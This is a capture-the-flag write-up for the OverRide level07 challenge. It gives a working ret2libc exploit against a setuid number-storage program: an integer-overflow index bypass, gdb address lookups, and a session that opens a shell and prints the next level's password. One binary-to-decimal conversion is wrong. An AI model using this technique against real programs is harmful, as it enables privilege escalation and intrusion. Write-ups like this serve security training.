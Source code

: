 # Level07

## Solution

* There is one file in our home, ```level07```, belonging to ```level08``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the disassembled code, but we will describe its behaviour:

	* ```main()``` first deletes all the arguments passed to the program and also the environment
	* it then allocates a on-stack ```0x64 int``` buffer
	* it asks the user to input a command :
		* ```store``` to call ```store_number()```
		* ```read``` to call ```read_number()```
		* ```quit``` to leave the program
	* ```store_number``` asks the user for a number and an index where to store this number in the ```main()``` buffer
	* if the index is a multiple of ```0x3``` or if ```(nb >> 0x18) == 0xb7```, ```store_number()``` refuses to store the number and returns ```1```
	* else it will store the number at the right index. As the buffer is filled with ```int```s, ```store_number()``` has actually to multiply the index by ```4``` and add it to the address of the buffer. For that, the assembly code uses a left bit shift of ```2```

* What we did with all of that:

	* our goal was to perform a ret2libc attack, using ```store_number``` to change values of former ```eip``` to ```system()``` address, and the content located ```4``` bytes after to a pointer to ```/bin/sh``` string
	* for that we needed several information:
		* offset between the buffer and the former ```eip``` location: ```0xffffd6cc - 0xffffd504 = 456``` bytes, that is to say ```456 / 4 = 114``` ints
		* ```system()``` address:
		```
		(gdb) p system
		$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
		```
		* as we could not store ```/bin/sh``` in a an env variable, we have to found an occurence in the program itself:
		```
		(gdb) find __libc_start_main,+99999999,"/bin/sh"
		0xf7f897ec
		warning: Unable to access target memory at 0xf7fd3b74, halting search.
		1 pattern found.
		```
		* in decimel, ```system()``` address is ```4159090384```; ```bin/sh``` address is ```4160264172```
	* one last problem: ```114``` is a multiple of ```3```, meaning that we could not access offset ```114 * 4 = 456``` by inputing ```114```.
	* then we had to find a number that would leads to the same result as ```114``` after a left bitshift of 2, without being a multiple of ```3```
	* as ```(int)114``` is ```0b00000000000000000000000001110010```, we had three candidates:
		* ```0b10000000000000000000000001110010 = 2147483762``` => not multiple of ```3```
		* ```0b01000000000000000000000001110010 = 1073741938``` => not multiple of ```3```
		* ```0b11000000000000000000000001110010 = 1610612850``` => multiple of ```3```
	* we could finally solve the level:
	```
	level07@OverRide:~$ ./level07
	----------------------------------------------------
	Welcome to wil's crappy number storage service!
	----------------------------------------------------
	Commands:
		store - store a number into the data storage
		read  - read a number from the data storage
		quit  - exit the program
	----------------------------------------------------
	wil has reserved some storage :>
	----------------------------------------------------

	Input command: store
	Number: 4159090384
	Index: 2147483762
	Completed store command successfully
	Input command: store
	Number: 4160264172
	Index: 116
	Completed store command successfully
	Input command: quit
	$ cd ../level08
	$ cat .pass
	7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
	```
	